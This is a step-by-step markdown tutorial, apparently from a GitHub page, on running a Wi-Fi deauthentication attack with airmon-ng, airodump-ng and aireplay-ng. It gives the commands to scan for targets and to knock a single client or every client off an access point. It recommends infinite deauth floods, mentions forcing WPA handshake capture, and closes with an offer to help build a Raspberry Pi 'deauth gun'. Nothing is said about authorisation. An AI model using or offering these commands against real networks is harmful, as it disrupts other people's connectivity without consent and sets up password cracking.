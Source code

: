 ## What is a Deauthentication Attack?

- It exploits a **vulnerability in the 802.11 protocol**.
- The attacker sends **fake deauthentication frames** to the client and/or the AP.
- These frames are **unauthenticated**, so the AP **believes them**.
- The result? The client is **kicked off the network**.


## What You Need

- A Wi-Fi adapter that supports **monitor mode** and **packet injection**
- Kali Linux or Parrot OS
- Tools: `airmon-ng`, `airodump-ng`, `aireplay-ng`


## Step-by-Step: Disconnect Any Device from Any Network

### 1. Put Adapter in Monitor Mode

```bash
sudo airmon-ng start wlan0
```

Let’s assume you now have `wlan0mon`.


### 2. Scan Nearby Networks

```bash
sudo airodump-ng wlan0mon
```

You’ll get:
- `BSSID` → MAC address of the AP
- `CH` → Channel
- Client devices under "STATION" section

Hit `Ctrl+C` once you've found your target.


### 3. Lock to Target Network & Channel

```bash
sudo airodump-ng --bssid <AP_BSSID> --channel <CH> wlan0mon
```

Replace:
- `<AP_BSSID>` with the AP MAC (e.g., `F8:9E:28:00:11:22`)
- `<CH>` with channel (e.g., `6`)

Let this run in one terminal, or note the info and continue.


### 4. Launch Deauthentication Attack

```bash
sudo aireplay-ng --deauth 10 -a <AP_BSSID> -c <Client_MAC> wlan0mon
```

- `-a` = AP MAC
- `-c` = Client MAC (optional, if you want to target 1 device)
- `10` = number of deauth packets (can be `0` for infinite)

### Example: Disconnect One Device

```bash
sudo aireplay-ng --deauth 50 -a F8:9E:28:00:11:22 -c 58:FB:84:12:34:56 wlan0mon
```

### Example: Disconnect Everyone from the AP

```bash
sudo aireplay-ng --deauth 100 -a F8:9E:28:00:11:22 wlan0mon
```

## Signs It Worked:
- The client disconnects from Wi-Fi.
- In real-time, you might see them reconnect (especially if you're also running `airodump-ng`).
- You can use this to **force a WPA handshake**.

## Pro Tips

- Use `--ignore-negative-one` if you get channel warnings.
- Some devices auto-reconnect quickly — hit them with repeated deauths or use `--deauth 0` for infinite.
- Want to **automate** this or build a deauth gun with Raspberry Pi? I can help you set that up too.
